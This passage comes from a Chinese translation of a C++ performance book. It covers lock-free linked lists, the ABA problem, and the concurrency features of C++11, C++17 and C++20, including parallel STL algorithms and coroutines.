``` {style="styleCXX"}
std::atomic<int> wait;  // 1 if managing memory
std::mutex lock;
while (wait == 1) {};  // Memory allocation in progress
if ( … out of memory … ) {
	std::lock_guard g(lock);
	if (… out of memory …) { // We got here first!
		wait = 1;
		… allocate more memory …
		wait = 0;
	}
}
… do the operation normally …
```

第一次，检查内存不足的情况，没有任何锁。速度很快，大多数时候，不会遇到内存不足。第二次，在锁下检查它，在锁下可以保证一次只有一个线程在执行。多线程可能会检测到内存不足，但第一个获得锁的线程是处理这种情况的线程，所有剩余的线程都在等待锁。当它们获得锁时，则进行第二次检查(因此，双重检查锁)，发现内存充足。

这种方法可以泛化来处理罕见的特殊情况，但与其他代码相比，以无锁的方式实现这种情况要困难得多。某些情况下，甚至可能对空队列的情况非常有用。如果两个线程组不相互交互，那么多个生产者或多个消费者的处理将需要原子递增的索引。如果在特定的应用程序中，就能够保证队列很少(如果有的话)变成空，那么可以选择对于非空队列来说非常快(无需等待)的实现，但如果队列可能为空，则需要使用全局锁。

好了，我们已经详细地介绍了顺序数据结构，接下来来研究一下节点数据结构。

###  7.5.线程安全的链表 {#线程安全的链表 .unnumbered}

在已经了解过的顺序数据结构中，数据都存储在一个数组中(或者是一个由内存块组成的数组)。现在将考虑一种不同类型的数据结构，其中数据是通过指针连接在一起的。最简单的例子就是一个链表，其中每个元素都是单独分配的，这里的方法也适用于其他节点容器，如树、图或其他数据结构，其中每个元素都是单独分配的，数据通过指针连接在一起。

先来看一个单链表，在STL中是`std::forward_list`:

\
图7.24 - 带有迭代器的单链表

因为每个元素都单独分配，所以也可以单独回收。轻量级分配器用于这些数据结构，其中内存在大块中分配，这些大块划分为节点大小的片段。当一个节点释放时，内存不会返回给操作系统，而是放在一个空闲列表中，以便应对下一次分配内存的请求。就我们的目的而言，内存直接从操作系统分配，还由专门的分配器处理，与我们的关系不大(后者通常更高效)。

并发程序中，链表的迭代器是一个挑战。如图7.24，这些迭代器可以指向链表中的任何位置。如果有元素从链表中删除，则希望它的内存能够用于构造和插入另一个元素(如果不这样做，并保持所有内存直到整个链表删除，重复增加和删除元素会浪费大量的内存)。但若有指向链表节点的迭代器，则不能删除该节点。在单线程程序中也是如此，但是在并发程序中的管理通常要困难得多。对于可能使用多线程的迭代器，不能通过操作的执行流保证没有迭代器指向要删除的元素。本例中，需要迭代器来扩展所指向的链表节点的生命周期。当然，这是使用引用计数智能指针的工作，比如`std::shared_ptr`。现在，假设链表中的所有指针，包括连接节点和迭代器中的指针，都是智能指针(`std::shared_ptr`或类似的具有强线程安全保证的指针)。

就像处理顺序数据结构一样，对线程安全的数据结构的第一次尝试应该是使用锁保护实现。在确定需要之前，永远不要设计无锁数据结构。开发无锁代码可能很酷，但找到Bug会很困难。

这里也需要重新设计部分接口，所有的操作都是事务性的。无论链表是否为空，`pop_front()`都应该工作。然后，可以用锁保护所有操作。对于`push_front()`和`pop_front()`这样的操作，很可能类似于堆栈或队列的性能。这份清单还列出了此前没有面对过的挑战。

首先，该链表支持任意位置插入。对于`std::forward_list`，在迭代器指向的元素之后插入一个新元素可以使用`inser_after()`。若同时在两个线程上插入两个元素，希望插入操作可以并发进行，除非这两个位置非常接近，并且影响相同的节点，但不能用一个锁来保护整个链表。

如果考虑长时间运行的操作，比如在链表中搜索具有所需值(或满足其他条件)的元素，情况会更糟。整个搜索操作中，必须锁定列表，因此在遍历列表时不能向列表添加或删除元素。若经常进行搜索，链表是不合适的数据结构，但树和其他节点数据结构也有相同的问题。若需要遍历数据结构的大部分，需要在整个操作期间持有锁，从而阻塞所有其他线程访问，甚至与当前操作无关的节点上的操作也会阻塞。

当然，如果从未遇到过这些问题，那么就不必担心这些问题。若链表仅从前后端访问，那么用一个锁保护的列表可能就够了。在设计并发数据结构时，不必要的通用性令人头痛。不过这里，只需要构建需要的内容即可。

大多数时候，节点数据结构并不仅仅是从端点访问的，或者在树或图的情况下，实际上没有任何端点。如果程序将大部分时间用于操作整个数据结构，那么锁定整个数据结构以便一次只有一个线程访问的方式就无法接受。可以考虑的下一个方法是，分别锁定每个节点。使用链表的情况下，可以向每个节点添加自旋锁，并在需要更改节点时锁定该节点。但这种方法遇到了所有基于锁的解决方案的死敌:死锁。任何需要操作多个节点的线程都必须获得多个锁。假设线程A持有节点1上的锁，现在需要在节点2之后插入一个新节点，所以它也试图获得这个锁。与此同时，线程B持有节点2上的锁，它希望在节点1之后删除节点，因此它试图获得该锁，所以现在两个线程会处于永远等待的状态。这个问题不可避免，因为有太多可以以任意顺序获取的锁，除非对线程访问链表的方式实施非常严格的限制(只持有一个锁)，然后就会面临活锁的风险，因为线程会不断地释放和重新获取锁。

如果需要一个链表或另一个节点数据结构来并发访问，就必须想出一个无锁的实现。无锁实现并不容易，更难以写正确。更好的选择是提出不需要线程安全节点数据结构的算法，这可以通过将全局数据结构的一部分复制到一个线程特定的结构中，然后由单个线程访问。在计算结束时，来自所有线程的部分再次放在一起。有时，划分数据结构更容易，这样就不会并发访问节点(例如，可以在一个线程上划分图并处理每个子图，然后处理边界节点)。但若需要线程安全的节点数据结构该怎么办？下一节将解释其中的挑战，并提供一些实现选项。

**7.5.1无锁链表**

无锁链表或其他节点容器的基本思想非常简单，基于使用比较-交换操作指向节点的指针。让从更简单的操作开始:插入。将描述在链表头部进行插入操作，在其他节点之后的插入操作也是一样的。

\
图7.25 - 在单链表头部插入一个新节点

假设在图7.25a所示的链表头部插入一个新节点。第一步是读取当前头指针，即指向第一个节点的指针。然后用期望值创建新的节点，它的next指针与当前的头指针相同，所以这个节点在当前第一个节点之前链接到链表中(图7.25b)。此时，新节点还不能被其他线程访问，因此可以并发地访问数据结构，最后执行CAS。如果当前头指针没有改变，将用指向新节点的指针替换它(图7.25c)。如果头指针不再具有第一次读取时的值，则读取新值，将其写入新节点的下一个指针，并再次尝试原子CAS。

这是一个简单可靠的算法。这是在前一章中看到的发布协议的应用，新数据是在单线程上创建的，所以不用考虑线程安全(其他线程还不能访问它)。作为最后的操作，线程通过原子性地更改可访问所有数据的根指针(我们的例子中是链表头)来发布数据。如果将新节点插入到另一个节点之后，将自动地更改该节点的next指针。唯一的区别是，多个线程可能试图在同一时间发布新的数据。为了避免数据竞争，必须使用*比较和交换*。

现在，考虑相反的操作，擦除链表的前端节点。这也是通过三个步骤完成的:

\
图7.26 - 单链表头部的无锁移除

读取头指针，使用它访问链表的第一个节点，然后读取它的next指针(图7.26a)。然后，将next指针的值原子地写入头指针中(图7.26b)，但前提是头指针没有改变(CAS)。此时，其他线程访问不能访问前面的节点，这样线程就拥有头指针的原始值，并且可以使用它来删除需要删除的节点(图7.26c)。但是，当试图将这两种操作结合起来时，问题就出现了。

假设两个线程同时对链表进行操作，线程A试图删除链表中的第一个节点。第一步是读取头指针和指向next节点的指针，这个指针即将成为链表的新头，但是比较和交换还没有发生。现在，这个头节点是不变的，新头节点是(head')，它只存在于线程A的某个局部变量中。这个时刻如图7.27a所示:

\
图7.27 - 单链表头部的无锁插入和移除

这时，线程B成功地删除了链表的第一个节点。然后它还会删除下一个节点，使链表保持图7.27b所示的状态(线程A没有取得任何进展)。然后，线程B在链表的开头插入一个新节点(图7.27c)。然而，由于两个已删除节点的内存释放，因此节点T4的新分配重用了之前分配的内存，因此节点T4与原始节点T1拥有了相同的地址。只要删除节点的内存可用于新的分配，这种情况就大概率会发生。事实上，大多数内存分配器更偏爱返回最近释放的内存，前提是它还在CPU的缓存中。

现在，线程A终于再次运行了，要做的操作是比较和交换。如果头指针自线程A上次读取它后没有改变，那么新头成为了现在的头(head')。但就线程A所见，头指针的值仍然是相同的(它法观察整个更改历史记录)。CAS操作成功，新的头指针现在指向节点T2以前所使用的内存，而节点T4不再可访问(图7.27d)。自此，整个链表坏了。

这种故障在无锁数据结构中非常常见，以至于拥有了一个术语：**A-B-A问题**。
这里的**A**和**B**指的是内存位置，问题是数据结构中的某个指针将其值从A更改为B，然后再返回A。另一个线程只观察初始值和最终值，根本看不到任何更改。比较和交换操作成功，开发者假定数据结构不变。但这个假设是不正确的，数据结构可以进行改变，但没观察到的指针的值的修改，其值就恢复到原来的状态。

问题的根源在于，如果内存回收和分配，那么内存中的指针或地址不能作为数据的唯一标识。这个问题有多种解决方案，都通过不同的方式完成了相同的事情。必须确保在读取了一个将会比较-交换使用的指针时，在比较-交换完成之前(成功或不成功)，该地址的内存不能释放。如果内存没有释放，那么在同一个地址上就不会发生另一次内存分配，这样就不会出现A-B-A问题。注意，释放内存与删除节点是不一样的。当然，可以使节点不可访问的数据结构的其余部分(删除节点)，甚至可以为存储在节点中的数据使用析构函数，但不释放节点所占用的内存。

通过延迟内存回收，出现了许多方法可以用来解决A-B-A问题。若知道算法在数据结构的生命周期内不会删除很多节点，那么可以将所有删除的节点存放在一个延迟释放的列表中，以便在删除整个数据结构时删除它们。这种方法更通用的版本可以描述为垃圾收集，所有释放的内存先放到一个垃圾收集列表中。垃圾内存周期性地返回给主内存分配器，但是在垃圾收集期间，数据结构上的所有操作都会挂起。正在进行的操作必须在收集开始之前完成，所有新的操作都会阻塞，直到收集完成。这确保了没有比较和交换操作，也可以跨越垃圾收集的间隔。因此，操作都不会回收内存。现在流行的RCU(read-copy-update)技术也是这种方法的一种变体。另一种常见的方法是使用风险指针。

本书中，将介绍另一种使用原子共享指针的方法(`std::shared_ptr`本身不是原子的，但该标准包含了对共享指针进行原子操作所需的必要函数，或者可以为应用程序编写自定义函数，使其更快)。重新看一下图7.27b，现在所有的指针都是原子共享指针。只要有一个这样的指针指向一个节点，该节点就不能释放。在相同的事件序列中，线程A仍然拥有指向原始节点T1的旧头指针，以及指向节点T2的新头指针head'。

\
图7.28 - 使用共享指针的单链表头指针------无锁插入和移除

线程B已经从链表中删除了两个节点(图7.28)，但是内存还没有释放。不同于当前分配的所有节点的地址，新的节点T4在其他地址上分配。因此，当线程A继续执行时，会发现新链表头指针与旧头指针的指向的值不同。比较-交换将失败，线程A将再次尝试操作。此时，将重新读取头指针(并获取节点T3的地址)。因为它是指向节点T1的最后一个共享指针，所以头指针的旧值现在没有了，这个节点因为没有更多的引用而删除了。类似地，只要共享指针head'重置为新的预期值(节点T3的下一个指针)，节点T2就会删除。节点T1和T2都没有指向它们的共享指针，因此它们最终也会删除。

当然，这是在节点前插入的情况。为了允许在任何地方插入和删除，必须将所有指向节点的指针转换为共享指针。这包括所有节点的next指针，以及指向链表迭代器中隐藏的节点的指针。这样的设计还有另一个优点:解决了链表遍历(如搜索操作)与插入和删除同时发生的问题。

如果在有指向该链表的迭代器时删除了一个节点(图7.29)，该节点仍然是已分配的，迭代器有效。即使删除了下一个节点(T3)，也不会释放，因为有一个共享指针指向它(节点T2的下一个指针)。迭代器可以遍历整个链表。

\
图7.29 - 使用原子共享指针的无锁链表------线程安全的遍历

当然，这个遍历可能包括不再在链表中的节点，不需要再从链表的头指针可达的节点开始了。并发数据结构的本质，讨论当前内容没有任何意义。了解链表内容的唯一方法是从链表头遍历到最后一个节点，但当迭代器到达链表末尾时，之前的节点可能已经改变，遍历的结果不再是之前那个"链表"的结果。这种思维方式需要一些时间来适应。

这里不打算展示无锁链表与锁保护链表的基准测试，因为这些基准测试必须基于特定的应用程序。如果只对链表头节点的插入和删除进行基准测试(`push_front()`和`pop_front()`)，那么由自旋锁保护的链表将会更快(原子共享指针并不便宜)。另一方面，如果对同步插入和搜索进行基准测试，则可以使无锁链表的速度最快。遍历包含1M个元素的链表时，锁保护的链表一直处于锁定状态，而无锁列表可以在每个线程上同时进行迭代，同时进行插入和删除操作。无论原子指针有多慢，只要使无锁链表足够长就会快。这并不是毫无根据的观察，应用程序可能需要执行一些操作，这些操作需要将链表锁定很长时间，除非能够以某种方式对链表进行分区，以避免死锁。如果需要这样做，那么无锁链表就是最快的。如果只需要迭代几个元素，并且从不同时在许多不同的位置，那么用锁保护链表就可以了。

A-B-A问题和解决方案不仅适用于链表，也适用于所有节点数据结构:双链表、树和图。由多个指针链接的数据结构中，可能会遇到其他问题。首先，即使所有指针都是原子指针，一个接一个地更改两个原子指针也不是一个原子操作。这将导致数据结构中的临时不一致。期望从一个节点到下一个节点，然后返回到前一个节点，这样就回到了原始节点。但在并发情况下，这并不总是正确的。如果在这个位置插入或删除节点，其中一个指针可能会在另一个指针之前更新。第二个问题是特定于共享指针或其他使用引用计数的实现，若数据结构有指针循环，循环中的节点也不会删除，即使没有有外部引用。最简单的例子是双链表，其中两个相邻的节点总是有指向彼此的指针。在单线程程序中，解决这个问题的方法是使用弱指针(在双链表中，所有的next指针都可以共享，所有的前一个指针都是弱指针)。这对于并发程序来说不是很好，关键是延迟内存回收，直到没有更多的引用才进行，而弱指针不会这样做。对于这些情况，可能需要额外的垃圾收集机制。在最后一个指向节点的外部指针删除后，必须遍历链接的节点，并检查是否有外部指针指向它们(可以通过检查引用计数来做到)，没有外部指针的链表可以安全删除。对于这类数据结构，可以使用风险指针或显式垃圾收集等替代方法。读者可以参阅有关无锁编程的书籍，以获得关于这些方法的更多信息。

好了，现在可以结束对并行编程高性能数据结构的探索了。现在来总结一下了解到的知识。

###  7.6.总结 {#总结-6 .unnumbered}

设计并发数据结构是困难的，应该利用一切机会进行简化。应用程序使用特定的数据结构，根据相应的限制，可以让数据结构更简单和更快。

首先，必须做出的决定是代码的哪些部分需要线程安全，哪部分不需要。最好的解决方案是给每个线程自己的数据，单个线程使用的自己数据，根本不需要考虑线程安全的问题。当这没办法使用时，寻找其他特定于应用程序的限制，是否有多个线程修改特定的数据结构？如果只有一个写线程，实现通常会更简单。有什么特定于应用程序的保证可以利用吗？知道数据结构的最大尺寸吗？是否需要同时从数据结构中删除数据以及添加数据，或者可以及时分离这些操作？在一些数据结构不变的情况下，是否存在定义良好的时间段？如果是，则不需要任何同步来读取。这些和许多其他特定于应用程序的限制，可以用来提高数据结构的性能。

第二个重要决策是，支持数据结构上的哪些操作？重申最后一段的另一种方法是*实现最小化的必要接口*。实现的接口必须是事务性的，每个操作都必须具有定义良好的数据结构状态和行为。只有在数据结构处于某种状态时才有效的操作，不能在并发程序中安全使用，除非使用客户端将多个操作锁定组合到一个事务中(在这种情况下，这些组合可能一开始就是一个操作)。

本章还介绍了几种实现不同类型数据结构的方法，以及评估其性能的方法。最终，只有在实际应用的背景下，使用实际数据才能获得准确的性能。然而，有用的近似基准测试，可以在开发和评估潜在的替代方案时节省大量时间。

###  7.7.练习题 {#练习题-6 .unnumbered}

1.  为线程安全而设计的数据结构接口的关键特性是什么？

2.  为什么功能有限的数据结构往往比通用版本更高效？

3.  无锁数据结构总是比基于锁的数据结构快吗？

4.  并发应用程序管理内存的挑战有哪些？

5.  A-B-A问题是什么?

##  第8章C++中的并发 {#第8章c中的并发 .unnumbered}

本章的目的是来聊聊C++17和C++20标准中添加到C++的并发编程特性。虽然现在谈论使用这些特性获得最佳性能的实践还为时过早，但可以了解它们的作用，以及编译器当前的支持状态。

本章将讨论以下内容:

-   C++11将并发引入C++

-   C++17中的并行STL算法

-   C++20中的协程

阅读本章后，将了解C++提供的帮助编写并发程序的特性。本章并不打算成为C++并发特性的手册，而是对可用语言工具的概述，为进一步探索打好基础。

###  8.1.相关准备 {#相关准备-6 .unnumbered}

如果想要尝试最新C++标准提供的语言特性，需要一个非常新的编译器。对于某些功能，可能还要进行额外的工具安装。我们将在描述相应的语言特性时提到相关的信息。

本章的源码地址：
<https://github.com/PacktPublishing/The-Art-of-Writing-Efficient-Programs/tree/master/Chapter08>。

###  8.2.C++11的并发支持 {#c11的并发支持 .unnumbered}

C++11之前，C++标准没有并发。当然，开发者们早在2011年之前就用C++编写多线程和分布式程序了。使C++中使用并发的原因可能是编译器作者进行了额外的限制和保证，通常是通过遵守C++标准(对于该语言)和另一个标准(如POSIX)来支持并发。

C++11通过引入C++内存模型，内存模型描述了线程如何通过内存进行交互。自此，C++第一次有了原生并发。内存模型的没有副作用，因为新的C++内存模型与大多数编译器支持的内存模型非常相似。这些模型之间有一些细微的差别，新标准保证了这些差异的可移植性。

一些直接支持多线程的语言特性更有用。首先，标准引入了线程的概念。对于线程的行为，很少有明确的说明，但是大多数实现只是简单地使用系统线程来支持C++线程。在实现的最底层上这是没问题的，但对于简单的程序来说，这就不够的。为程序必须执行的每个独立任务创建一个新线程，就肯定会失败。启动新线程需要时间，而且很少有操作系统能够有效地处理数百万个线程。另一方面，对于开发线程调度器的开发者来说，C++线程接口没有为线程行为提供足够的控制(大多数线程属性特定于操作系统)。

接下来，标准引入了几个同步原语来控制对内存的并发访问。标准提供了`std::mutex`，通常使用常规的系统互斥锁来实现。在POSIX平台上，这通常是POSIX互斥锁。标准提供了计时和递归互斥锁(紧随POSIX)。为了简化异常处理，应该避免直接锁定和解锁互斥对象，使用RAII模板`std::lock_guard`。

为了安全锁定多个互斥对象，避免死锁的风险，标准提供了`std::lock()`(虽然保证没有死锁，但使用的算法未指定，而且特定实现的性能差别很大)。另一个常用的同步原语是一个条件变量`std::condition_variable`，以及相应的等待和信号操作。这个功能也非常接近于POSIX相应的特性。

然后，支持底层的原子操作:`std::atomic`、比较-交换之类的原子操作，以及内存序。我们已经在第5章，第6章和第7章，了解了它们的行为和应用。

最后，语言增加了对异步执行的支持，可以使用`std::async`异步调用函数(可能在另一个线程上)。虽然这可能支持并发编程，但该特性对于高性能应用几乎完全没用。大多数实现要么提供非常有限的并行性，要么在自己的线程上执行异步函数。大多数操作系统在创建和汇入线程时有相当大的开销(我所见过的唯一一个使并发编程简单到为每个任务启动一个线程的操作系统是AIX，如果需要的操作系统可能会启用数百万个线程。在其他操作系统上，这会造成混乱)。

总的来说，谈到并发性时，C++11在概念上是一个重大的进步，C++14的改进集中在其他地方，所以在并发性方面没有什么值得注意的变化。然后，再了解一下C++17带来了哪些新的特性。

###  8.3.C++17的并发支持 {#c17的并发支持 .unnumbered}

C++17带来了重要修改和几个与并发相关的调整，先让快速讨论一下后者。在C++11中引入的`std::lock()`现在有一个相应的RAII对象，`std::scoped_lock`。添加了共享互斥锁`std::shared_mutex`，或者称为读写互斥锁(同样，匹配POSIX相应的特性)。只要线程不需要独占访问锁定的资源，这个互斥锁允许多个线程同时进行操作。这样的线程执行只读操作，而写线程需要独占访问，因此称为**读写锁**。理论上讲，这是一个聪明的想法，但大多数实现的性能都很糟糕。

值得注意的是一个新特性，允许决定L1缓存的缓存行大小，`std::hardware_destructive_interference_size`和`std::hardware_constructive_interference_size`。这些常量有助于创建缓存优化的数据结构，避免错误共享。

现在来看看C++17的主要新特性------**并行算法**，STL算法现在有了并行版本(总的来说，这组并行算法通常称为并行STL)。例如，下面是对`std::for_each`的使用:

``` {style="styleCXX"}
std::vector<double> v;
… add data to v …
std::for_each(v.begin(), v.end(),[](double& x){ ++x; });
```

在C++17中，可以让标准库在可用的处理器上并行执行:

``` {style="styleCXX"}
std::vector<double> v;
… add data to v …
std::for_each(std::execution::par,
			v.begin(), v.end(),[](double& x){ ++x; });
```

并行版本的STL算法有一个新的第一个参数:执行策略。注意，执行策略不是单个类型，而是一个模板参数。该标准提供了几个执行策略，前面使用的并行策略`std::execution::par`，允许算法在多个线程上执行。线程的数量和线程中计算分区的方式没有指定的，完全取决于实现。顺序策略`std::execution::seq`则是在单个线程上执行算法，与不使用任何策略(或在C++17之前)执行算法的方式相同。

还有一个并行的非串行策略，`std::execution::par_unseq`。这两个并行策略之间有微妙的区别，理解这个区别很重要。标准表示无序策略允许在单个线程中交叉进行计算，从而允许进行其他优化，如向量化。但优化编译器在生成机器码时可以使用像AVX这样的向量指令，而且这无需任何来C++代码的帮助。编译器只是找到向量化的机会，并将常规的单字指令替换为向量指令。那这里有什么不同呢？

为了理解非串行策略的本质，必须考虑一个更复杂的例子。现在，不是简单地操作每个元素，想使用共享数据做一些计算:

``` {style="styleCXX"}
double much_computing(double x);
std::vector<double> v;
… add data to v …
double res = 0;
std::mutex res_lock;
std::for_each(std::execution::par, v.begin(), v.end(),
[&](double& x){
	double term = much_computing(x);
	std::lock_guard guard(res_lock);
	res += term;
});
```

这里对每个向量元素进行一些计算，然后累加结果的总和。计算本身可以并行完成，但是累加值必须由一个锁来保护，因为所有线程都会增加同一个共享变量*res*。由于锁并行执行策略是安全的，但不能在这里使用无顺序的策略。如果同一个线程要同时处理多个向量元素(交叉处理)，可能会多次尝试获取同一个锁，这是会产生死锁。如果线程持有锁，并试图再次锁定它，第二次尝试将会阻塞，并且线程不能继续运行到它应该解锁的地方。标准调用代码(如上一个例子中的**向量化不安全**)声明，此类代码不应与无序策略一起使用。

既然已经了解了并行算法在理论上是如何工作的，那么在实践中呢？简短的回答很好，但有一些瑕疵，还是来看看完整的版本。

检查并行算法之前，必须准备构建的环境。要编译C++程序只需要安装所需的编译器版本，比如GCC，然后就可以了，但并行算法却不是这样。在写这本书的时候，安装过程有些繁琐。

最新的GCC和Clang版本都包含了并行的STL头文件(在一些安装中，Clang需要安装GCC，因为它使用GCC提供的并行STL)，这个问题出现在较底的层次上。这两个编译器使用的运行时线程系统是Intel的**threading
Building Blocks
(TBB)**，这两个编译器都没有在安装中包含TBB。麻烦的是，编译器的每个版本都需要对应的TBB版本，旧版本和新版本都不能工作(错误会在编译和链接时出现)。要运行与TBB链接的程序，可能需要将TBB库添加到库路径中。

当解决了这些问题，并配置了编译器和必要的库，使用并行算法并不比使用其他STL困难。那么其扩展性怎么样？我们可以做一些基准测试。

从`std::for_each`开始，没有锁，并且每个元素都需要大量的计算(函数`work()`非常耗时，精确的操作对于扩展性并不重要):

\
**parallel_algorithm.C**

``` {style="styleCXX"}
std::vector<double> v(N);
std::for_each(std::execution::par,
v.begin(), v.end(),[](double& x){ work(x); });
```

以下是运行在两个线程上的串行版本和并行版本的性能:

\
图8.1 - 并行`std::foreach`在2个cpu上的基准测试

扩展性还不错。注意，向量大小N相当大，有32K个元素。对于更大的向量，扩展效果确实有所改善。但是，对于相对较小的数据量，并行算法的性能很差:

\
图8.2 - 短序列并行`std::foreach`的基准测试

对于包含1024个元素的向量，并行版本比串行版本慢。原因是执行策略在每个并行算法开始时启动所有线程，并在结束时回收它们。启动新线程需要花费大量时间，因此当计算时间较短时，开销会超过我们从并行化中获得的任何加速。这不是标准强加的要求，而是当前GCC和Clang中并行STL的实现管理其与TBB系统交互的方式。

当然，并行算法提高性能的大小取决于硬件、编译器，及其并行性的实现，以及每个元素的计算量。例如，可以尝试逐元素计算:

``` {style="styleCXX"}
std::for_each(std::execution::par,
v.begin(), v.end(),[](double& x){ ++x; });
```

现在，处理32k元素数组，并行性并没有优势:

\
图8.3 - 并行`std::foreach`的基准测试，以实现每个元素的快速计算

对于更大的数组，并行算法可能会有优势，除非内存访问速度限制了单线程和多线程版本的性能(这是一个很大的内存限制计算)。

也许更令人印象深刻的是那些很难并行化算法的性能，比如`std::sort`:

``` {style="styleCXX"}
std::vector<double> v(N);
std::sort(std::execution::par, v.begin(), v.end();
```

输出:

\
图8.4 - 并行`std::sort`的基准测试

同样，在并行算法生效之前，需要足够大的数据量(对于1024个元素，单线程排序更快)。排序并不是容易并行化的算法，而且在双精度浮点数(比较和交换)上对每个元素进行的计算非常快。尽管如此，并行算法展示了非常好的加速，如果元素比较的代价更高，性能会变得更好。

并行STL算法如何与线程交互？若在两个线程上同时运行两个并行算法会发生什么？首先，与在多线程上运行的代码一样，必须确保线程安全(无论使用哪种排序，在同一个容器上并行两个排序不个好主意)。除此之外，还会发现多个并行算法可以共存，但无法控制调度系统，它们都试图在可用的CPU上运行，因此会出现争夺资源。根据每个算法的扩展性，并行运行几个算法可能会获得更高的总体性能，也可能不会。

总的来说，当STL算法运行在足够大的数据量上时，其并行版本的性能非常好，尽管足够大的数据量取决于特定的计算。可能需要额外的库来编译和运行使用并行算法的程序，配置这些库可能需要一些工作量。而且，并不是所有的STL算法都有并行版本(例如，`std::accumulate`就没有)。

......

现在我们可以在穿梭时间，直接跳到C++20。

###  8.4.C++20的并发支持 {#c20的并发支持 .unnumbered}

C++20对现有的并发性进行了增强，但我们将重点关注新添加的特性:协程。协程具有中断和恢复功能的线程，在几种主要的应用程序中很有用。可以极大地简化事件驱动程序的编写，对于窃取工作的线程池来说，那必然要使用协程，而且会让异步I/O和其他异步的代码更加简单

**8.4.1介绍协程**

协同程序有两种风格:**有栈**和**无栈**。有栈协程有时也称为**纤程**(fiber)，类似于在堆栈上分配状态的函数。无栈协程没有相应的堆栈，状态存储在堆中。有栈协程更加强大和灵活，但是无栈协程会更高效。

本书中，因为C++20支持，将重点关注无栈协程。这是一个不寻常的概念，在展示C++特有的语法和示例之前，先来了解一下。

常规的C++函数总有一个相应的堆栈框架。只要函数在运行，栈帧就存在，所有的局部变量和其他状态都存储在这里。下面是一个简单的函数`f()`:

``` {style="styleCXX"}
void f() {
	…
}
```

其中有一个栈帧。再函数`f()`调用另一个函数`g()`时:

``` {style="styleCXX"}
void g() {
	…
}
void f() {
	…
	g();
	…
}
```

函数`g()`在函数运行时也有一个栈帧。

参考下图:

{width="50%"}\
图8.5 - 常规函数的栈帧

当函数`g()`退出时，它的栈帧会销毁，只有函数`f()`的栈帧保留了下来。

无栈协程的状存储在堆上，这种分配称为**活帧**。活帧与协程句柄相关联，协程句柄是一个智能指针的对象。可以发出和返回函数的调用，只要句柄没有损坏，活帧就一直存在。

协程还需要堆栈空间，调用其他函数。该空间在调用者的堆栈上分配，下面展示其工作原理(C++语法有所不同，所以现在把协程相关的行为想象成伪代码):

``` {style="styleCXX"}
void g() {
	…
}
void coro() { // coroutine
	…
	g();
	…
}
void f() {
	…
	std::coroutine_handle<???> H; // Not the real syntax
	coro();
	…
}
```

对应的内存分配如下图所示:

{width="60%"}\
图8.6 - 调用协程

函数`f()`创建协程句柄，拥有活帧。然后调用协程函数`coro()`。这时有堆栈分配，协程在堆栈上存储了在挂起时返回的地址(记住，协程是可以挂起自己的函数)。协程可以调用另一个函数`g()`，将`g()`的栈帧分配到堆栈上。此时，协程不能再挂起，只有协程顶层函数可以挂起。函数`g()`无论谁调用最终都会返回，以同样的方式运行，这将破坏它的栈帧。协程现在可以挂起自己，所以假设它挂起了。

这是有栈协程和无栈协程的关键区别。有栈协程可以在函数调用的任意深度处挂起，并从那里恢复。但是这种灵活性需要很高的内存成本，尤其是运行时成本。无栈协程由于其有限的状态，效率要高很多。

当协程挂起时，恢复协程所需的部分状态会存储在活帧中。然后销毁协程的栈帧，并将控制权返回给调用者，直至协程调用的位置。如果协程完成，也会发生同样的情况，但是调用者有一种方法可以查询协程的状态是挂起还是完成。

调用者继续执行他的操作，并可以使用其他函数:

``` {style="styleCXX"}
void h() {
	…
}
void coro() {…} // coroutine
void f() {
	…
	std::coroutine_handle<???> H; // Not the real syntax
	coro();
	h(); // Called after coro() is suspended
	…
}
```

内存分配看起来如下所示:

{width="60%"}\
图8.7 - 挂起协程，继续执行

注意，没有与协程对应的栈帧，只有堆分配的活帧。只要句柄对象处于活动状态，协程就可以恢复。不一定是调用和恢复协程的同一函数，例如：如果句柄可用，函数`h()`就可以恢复:

``` {style="styleCXX"}
void h(H) {
	H.resume(); // Not the real syntax
}
void coro() {…} // coroutine
void f() {
	…
	std::coroutine_handle<???> H; // Not the real syntax
	coro();
	 h(H); // Called after coro() is suspended
	…
}
```

协程从暂停的地方重新开始，状态从活帧中恢复(堆栈分配将像往常一样):

{width="60%"}\
图8.8 - 协程从不同的函数处恢复

.

最终，协程完成，句柄销毁。这将释放与协程关联的所有内存。

以下是关于C++20协程需要了解的主要内容:

-   协程是可以挂起自己的函数。这与操作系统挂起一个线程不同，挂起一个协程是由开发者显式地完成的(多任务协作)。

-   与栈帧相关联的常规函数不同，协程具有句柄对象。只要句柄处于活动状态，协程状态就会保持。

-   协程挂起后，控制权将返回给调用者，调用者可以继续以相同的方式运行，就像协程已经完成一样。

-   协程可以从任何位置恢复，不一定是调用者本身。此外，协程甚至可以从不同的线程恢复(将在本节后面看到一个示例)。协程从挂起点恢复，并继续运行，就像什么都没发生一样(但可能在不同的线程上运行)。

**8.4.2C++的协程**

现在看一下C++语言的构造，这些构造可用于协程编程。

首先，需要一个支持该特性的编译器。GCC和Clang在他们的最新版本中都支持协程，但不幸的是，方式不同。对于GCC您需要版本11或更高版本。对于Clang，在版本10中添加了部分支持，并在以后的版本中进行了加强，但仍然是"实验性的"。

首先，为了编译协程代码，需要在命令行上有一个编译器选项(使用`-std=c++20`选项启用C++20还不够)。对于GCC，这个选项是`-fcoroutines`。对于Clang，选项是`-stdlib=libc++ -fcoroutines-ts`。最新版的Visual
Studio只需要`/std:c++20`。

然后，需要包含协程头文件。在GCC和Visual
Studio中(根据标准)，头文件是`#include <coroutine>`，声明的所有类都在标准命名空间`std`中。但在Clang中，头文件是`#include <experimental/coroutine>`，使用的命名空间是`std::experimental`。

声明协程不需要特殊的语法，协程只是普通的C++函数。使它们成为协程的是使用暂停操作`co_await`或其`co_yield`。然而，在函数体中调用这些操作是不够的，C++中的协程对其返回类型有严格的要求。标准库在声明这些返回类型和其他处理协程所需的类时，没有提供任何帮助。语言仅提供了一个使用协程进行编程的框架。因此，直接使用C++20协程代码会非常冗长、重复，并且包含大量样板代码。实际中，每个使用协程的开发者都会使用一个可用的协程库。

实际编程中，也应该这样做。本书中，将展示用简单的C++编写的示例。这样做的目的是，不想引入任何特定的库，而且这样做会模糊读者对实际情况的理解。对协程的支持是最近才出现的，这些库也在迅速发展，现在选择的库不一定会一直好用。我们希望在C++的级别理解协程代码，而不是在某个特定库所呈现的抽象级别理解协程代码。然后，应该根据自己的需要选择一个库，并使用抽象语法进行编程。

